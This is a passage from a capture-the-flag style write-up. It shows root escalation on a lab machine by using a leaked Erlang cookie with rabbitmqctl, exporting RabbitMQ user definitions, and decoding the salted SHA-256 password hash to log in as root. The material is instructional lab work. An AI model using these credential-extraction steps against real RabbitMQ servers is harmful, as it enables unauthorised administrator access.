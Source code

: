 I do some research. From the nmap scan and linpeas output I know RabbitMQ is running. With the erlang cookie you can authenticate. RabbitMQ nodes have the format `rabbit@<hostname>` by default. As you can clearly see:
```shell
azrael@forge:/tmp$ hostname  
forge
```
I will add `forge` to `/etc/hosts`. 

I run `sudo apt install rabbitmq-server -y` then `sudo /usr/sbin/rabbitmqctl --erlang-cookie 's50UtBF3YF6O7QBm' --node rabbit@forge status` to see if it works. Then I look at users:
```shell
sudo rabbitmqctl --erlang-cookie 's50UtBF3YF6O7QBm' --node rabbit@forge list_users  
Listing users ...  
user    tags  
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256. []  
root    [administrator]
```

So the password for user root is the SHA 256 hash of the root user password on the RabbitMQ instance. With more research I find I can get the hash using `export_definitions`:
```shell
sudo rabbitmqctl --erlang-cookie 's50UtBF3YF6O7QBm' --node rabbit@forge export_definitions exported.json  
Exporting definitions in JSON to a file at "exported.json" ...

cat exported.json | jq | grep -C 4 hash
{  
     "hashing_algorithm": "rabbit_password_hashing_sha256",  
     "limits": {},  
     "name": "root",  
     "password_hash": "49e6-redacted-BzWF",  
     "tags": [  
       "administrator"  
     ]  
   }
```

I go to [https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm](https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm) to understand the hash I find. Here is what the official website says:

**This is the algorithm**:
- Generate a random 32 bit salt. In this example, we will use `908D C60A`. When RabbitMQ creates or updates a user, a random salt is generated.
- Prepend the generated salt with the UTF-8 representation of the desired password. If the password is `test12`, at this step, the intermediate result would be `908D C60A 7465 7374 3132`
- Take the hash (this example assumes the default [hashing function](https://www.rabbitmq.com/docs/passwords#changing-algorithm), SHA-256): `A5B9 24B3 096B 8897 D65A 3B5F 80FA 5DB62 A94 B831 22CD F4F8 FEAD 10D5 15D8 F391`
- Prepend the salt again: `908D C60A A5B9 24B3 096B 8897 D65A 3B5F 80FA 5DB62 A94 B831 22CD F4F8 FEAD 10D5 15D8 F391`
- Convert the value to base64 encoding: `kI3GCqW5JLMJa4iX1lo7X4D6XbYqlLgxIs30+P6tENUV2POR`
- Use the finaly base64-encoded value as the `password_hash` value in HTTP API requests and generated definition files

To get the hash first convert the base64 to hex:
```shell
echo -n '49e6-redacted-BzWF' | base64 -d | xxd -p -c 80
e3d7-redacted-3585
```

Removing the 4 byte salt from the beginning gives the actual hash: `295d-redacted-3585`

This is the password. I run `su root` and get `/root/root.txt`. The end!
{% endraw %}
___
